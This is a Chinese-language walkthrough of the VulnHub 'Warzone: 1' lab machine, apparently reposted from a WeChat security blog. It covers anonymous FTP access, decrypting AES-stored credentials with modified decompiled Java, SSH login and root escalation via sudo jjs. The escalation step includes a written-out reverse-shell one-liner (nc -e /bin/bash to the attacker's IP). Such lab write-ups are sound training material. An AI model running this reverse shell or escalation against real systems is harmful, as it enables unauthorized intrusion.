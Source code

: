 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/JhaQqVJ3kPuZN2KzHASIfw)

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/1brjUjbpg5woLxm1R7bkgS0xELvt3I75r1nOjBycGwcBqCoO4AtB7FQNfiasb7z3JWibPtaeZussh9jnKKmOECmg/640?wx_fmt=png)

点击上方 “信安前线” 可订阅

**0x01 介绍**
-----------

虚拟机页面：http://www.vulnhub.com/entry/warzone-1,589/

Description

```
Info : Created and Tested in Virtual Box, maybe you need to write code
Based on : Crypto
Scenario : You are trying to gain access to the enemy system
Mission : Your mission is to get the silver and the gold trophy (user.txt, root.txt)
Hints : java decompiler
```

**0x02 Writeup**
----------------

**主机发现和端口探测：**

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
5000/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.7.3)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**服务脆弱性测试攻击：**

以匿名用户登录 ftp，发现了两个文件。  

```
kali@kali:~$ ftp 192.168.56.44
Connected to 192.168.56.44.
220 (vsFTPd 3.0.3)
Name (192.168.56.44:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    2 ftp      ftp          4096 Oct 22 12:49 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--r--r--    1 ftp      ftp            77 Oct 22 12:32 note.txt
-r--r--r--    1 ftp      ftp          5155 Oct 22 12:49 warzone-encrypt.jar
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (77 bytes).
226 Transfer complete.
77 bytes received in 0.00 secs (16.2304 kB/s)
ftp> get warzone-encrypt.jar
local: warzone-encrypt.jar remote: warzone-encrypt.jar
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for warzone-encrypt.jar (5155 bytes).
226 Transfer complete.
5155 bytes received in 0.01 secs (883.6545 kB/s)

kali@kali:~$ cat note.txt 
Attention, please encrypt always your password using the warzone-encrypt.jar
```

反编译 warzone-encrypt.jar，得知这段代码是 AES 加密字符串的。

```
package encrypt;

import crypto.AES;
import java.util.Scanner;

public class Main {
  public static void main(String[] args) {
    System.out.println("Symmetric Encryption by Alienum");
    Scanner in = new Scanner(System.in);
    System.out.print("enter the password to encrypt : ");
    String password = in.nextLine();
    System.out.println("encrypted password : " + AES.encryptString(password));
    System.exit(0);
  }
}
```

暂时先不管它，接下来查看 5000 服务，在页面源码下发现一段文字：GA DIE UHCEETASTTRNL，这是一种置换密码 - 栅栏密码，分三栏

得到请求路径 / get/auth/credentials，在该路径下得到加密信息。

Confidential

<table width="800"><thead><tr cid="n35" mdtype="table_row"><th>username</th><th>password</th></tr></thead><tbody><tr cid="n38" mdtype="table_row"><td>paratrooper</td><td>GJSFBy6jihz/GbfaeOiXwtqgHe1QutGVVFlyDXbxVRo=</td></tr><tr cid="n41" mdtype="table_row"><td>specops</td><td>mnKbQSV2k9UzJeTnJhoAyy4TqEryPw6ouANzIZMXF6Y=</td></tr><tr cid="n44" mdtype="table_row"><td>specforce</td><td>jiYMm39vW9pTr+6Z/6SafQ==</td></tr><tr cid="n47" mdtype="table_row"><td>aquaman</td><td>v9yjWjP7tKHLyt6ZCw5sxtktXIYm5ynlHmx+ZCI4OT4=</td></tr><tr cid="n50" mdtype="table_row"><td>commander</td><td>2czKTfl/n519Kw5Ze7mVy4BsdzdzCbpRY8+BQxqnsYg=</td></tr><tr cid="n53" mdtype="table_row"><td>commando</td><td>+uj9HGdnyJvkBagdB1i26M9QzsxKHUI0EFMhhfaqt2A=</td></tr><tr cid="n56" mdtype="table_row"><td>pathfinder</td><td>eTQiiMXzrM4MkSItWUegd1rZ/pOIU0JyWlLNw2oW6oo=</td></tr><tr cid="n59" mdtype="table_row"><td>ranger</td><td>BN5Syc7D7Bdj7utCbmBiT7pXU+bISYj33Qzf4CmIDs=</td></tr></tbody></table>

稍微改了上面的加密代码，其中 AES 中的几个属性改为 public（这里省略），得到解密口令，利用 ssh 尝试登录。

```
public class Test {

    public static String decrypt(String encryptpasswd) {
        Obfuscated obs = new Obfuscated();
        AES ea = new AES(obs.getIV(), 128, obs.getKey());
        try {
            ea.cipher.init(2, ea.key, ea.iv);
            byte[] encryptbytes = Base64.getDecoder().decode(encryptpasswd);
            byte[] decryptbytes = ea.cipher.doFinal(encryptbytes);
            return new String(decryptbytes);
        } catch (Exception ex) {
            throw new RuntimeException(ex.getMessage());
        }
    }

    public static void main(String[] args) {

        while (true) {
            Scanner in = new Scanner(System.in);
            System.out.print("enter the encryptpassword to decrypt : ");
            String encryptpassword = in.nextLine();
            System.out.println("password : " + decrypt(encryptpassword));
        }

    }
}
```

通过解密得到 commando 的密码为 c0mmandosArentRea1.!，ssh 成功登录 commando。

```
kali@kali:~$ ssh commando@192.168.56.44
+-+-+-+-+-+-+-+-+-+-+-+-+-++-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-++-+-+-+
   WARZONE    WARZONE    WARZONE    WARZONE    WARZONE    WARZONE
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
                 {Unauthorized access is prohibited}
commando@192.168.56.44's password: 
Linux warzone 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64
+-+-+-+-+-+-+-+-+-+-+-+-+-++-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-++-+-+-+
   WARZONE    WARZONE    WARZONE    WARZONE    WARZONE    WARZONE
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
                 {Unauthorized access is prohibited}
Last login: Mon Oct 26 06:51:30 2020 from 192.168.56.4
```

**提权获取 flag：**

查看. bash_history

```
cd captain
ls
cd Desktop
ls
cat user.txt
```

进入 / home/captain/Desktop

```
drwxr-xr-x  2 captain captain 4096 Oct 22 17:35 .crypt
-r--------  1 captain captain   32 Oct 21 18:23 user.txt
```

继续进入. crypt，readme.txt 提醒密码就在这里，还有一段加密程序 encrypt.py 和. c，简单写了解密程序得到 captain 密码为_us3rz0ne_F1RE

```
#!/usr/bin/python3
from simplecrypt import encrypt, decrypt
import os
import base64
key = 'sekret'
text = base64.b64decode('c2MAAk1Y/hAsEsn+FasElyXvGSI0JxD+n/SCtXbHNM+1/YEU54DO0EQRDfD3wz/lrbkXEBJJJd1ylXZpi/2dopaklmG6NCAXfGKl1eWAUNU1Iw==')
passwd = decrypt(key, text)
print(passwd)
```

**登录得到第一个 flag**

```
captain@warzone:~/Desktop$ cat user.txt 
trophy : {silver_medal_warzone}
```

查看 sudo -l 看到 jjs[2]（jjs 是让 javascript 可以调用 java）可以执行特权命令，通过下面命令成功获取 root shell（可以查看. bash_history 获得帮助）。

```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/usr/bin/nc -e /bin/bash 192.168.56.4 8000')"|sudo jjs

# 返回shell
id
uid=0(root) gid=0(root) groups=0(root)
ls /root/Desktop
root.txt
cat root.txt
-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
trophy : {gold_medal_warzone}
-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
created by @AL1ENUM with <3
```

**0x03 参考**
-----------

*   https://blog.csdn.net/roc1010/article/details/89605693
    
*   https://www.runoob.com/java/java8-nashorn-javascript.html
    

**PS：已授权，感谢大哥的文章**

更多精彩

*   [Web 渗透技术初级课程介绍](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486030&idx=2&sn=185f303a2f1b5267c0865f117931959d&chksm=fcfc3718cb8bbe0e6f3ca97859e78342852537da2bef3cd76a83cb90ee64a8ca8953b35aa67e&scene=21#wechat_redirect)
    
*   [vulnhub 之 IA: Nemesis (1.0.1) 靶场 Writeup](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486886&idx=1&sn=41eea23641c906ed29288bcc8416664e&chksm=fcfc30f0cb8bb9e690c7630af7ed38980cfada4a5e6473b50abb34c1354dc85b2f86cfcadf65&scene=21#wechat_redirect)  
    
*   [商务合作](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486808&idx=1&sn=f50f15f9a3ab7312a08b1f932292faca&chksm=fcfc300ecb8bb918213c6070d864ffcd70ad27ab6525521c31e9ccaa57bdfa2968360ed7e8fe&scene=21#wechat_redirect)
    

![](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQSd9wDlUiar0tUpHCYAzrZfTzOvS2SEw9cia9j7d1HKP2bWArPLCegs1XoejVUPu0GkSuZh7Wia7aExA/640?wx_fmt=png)

**如果感觉文章不错，分享让更多的人知道吧！**